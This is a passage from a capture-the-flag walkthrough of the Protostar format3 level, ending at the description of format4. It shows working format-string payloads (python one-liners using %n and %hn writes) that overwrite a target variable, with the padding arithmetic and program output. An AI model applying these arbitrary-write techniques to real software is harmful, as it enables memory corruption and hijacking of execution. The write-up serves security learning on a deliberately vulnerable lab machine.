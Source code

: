``` shell
user@protostar:/opt/protostar/bin$ python -c 'print "\xf4\x96\x04\x08\xf5\x96\x04\x08\xf6\x96\x04\x08\xf7\x96\x04\x08%52x%12$n%17x%13$n%173x%14$n"' | ./format3

you have modified the target :)
```

### Two-Write Method

This method reduces the number of writes to **two**, which is more efficient, as adjacent memory isn't prone to be corrupted. 

Instead of writing **one byte at a time**, we write **two bytes at a time** using `%hn`, which performs a half-word write (16 bits). This avoids overflow issues that occur when writing **byte-by-byte**.

We will overwrite target (0x080496f4) with 0x01025544 by splitting it into two half-word writes:

1. First half-word: 0x5544 &#8594; Written to 0x080496f4
2. Second half-word: 0x0102 &#8594; Written to 0x080496f6

Since each write covers two bytes, we only need to reference two stack slots (**\$12** and **\$13**) instead of four.

The trick here is that we should **start with smallest value first**, which is `0x0102`. Since we already have 8 bytes due to our memory addresses (**0x080496f4** and **0x080496f6**), the number of additional bytes we need to print for `0x080496f6` is:

$$
0x0102 - 8 = 250
$$

``` shell
user@protostar:/opt/protostar/bin$ python -c 'print "\xf6\x96\x04\x08\xf4\x96\x04\x08%250x%12$hn"' | ./format3

target is 01020000 :(
```

Nice~ We have successfully overwritten `0x0102`, now we just need to calculate the rest:

$$
0x5544 - 258 = 21570
$$

``` shell
user@protostar:/opt/protostar/bin$ python -c 'print "\xf6\x96\x04\x08\xf4\x96\x04\x08%250x%12$hn%21570x%13$hn"' | ./format3

you have modified the target :)
```

## Format 4

Description:

>format4 looks at one method of redirecting execution in a process.
><br><br> Hints:
>objdump -TR is your friend
><br><br>This level is at /opt/protostar/bin/format4
